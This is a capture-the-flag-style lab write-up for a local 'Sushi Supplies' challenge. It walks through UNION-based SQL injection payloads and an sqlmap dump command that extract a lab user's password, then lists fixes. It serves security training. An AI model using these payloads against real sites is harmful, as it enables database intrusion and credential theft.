





# SQL Injection 0x03 [Challenge]

## What is this challenge?
A challenge lab called "Sushi Supplies" — a 
product search page vulnerable to SQL Injection.
Goal: extract user credentials from the database.

## Target
http://localhost/labs/i0x03.php

## Vulnerability
The product search field is vulnerable to
UNION-based SQL Injection.

## Attack

### Step 1 — Identify the lab
Sushi Supplies website with product search

### Step 2 — Test basic injection
Payload: x' or 1=1#
Result: All products displayed — SQLi confirmed!

### Step 3 — Find number of columns
Payload: x' union select null,null,null,null#
Result: 4 columns identified

### Step 4 — Extract username
Payload:
Tanjyoubi Sushi Rack' union select 
null,null,null,username from injection0x03_users#
Result: username "takeshi" found!

### Step 5 — Automate with sqlmap
Used sqlmap to dump full table:
sqlmap -r req2.txt --level=2 --dump
Result: Database bb-labs dumped
Table: injection0x03_users
| password          | username |
| onigirigadaisuki  | takeshi  |

## Payloads Used
```sql
x' or 1=1#
x' union select null,null,null,null#
Tanjyoubi Sushi Rack' union select null,null,null,username from injection0x03_users#
sqlmap -r req2.txt --level=2 --dump
```

## Screenshots






## Impact
- Full database contents exposed
- User credentials stolen via automated attack
- Combined manual and automated exploitation

## Fix
- Use prepared statements
- Implement Web Application Firewall (WAF)
- Sanitize all search inputs
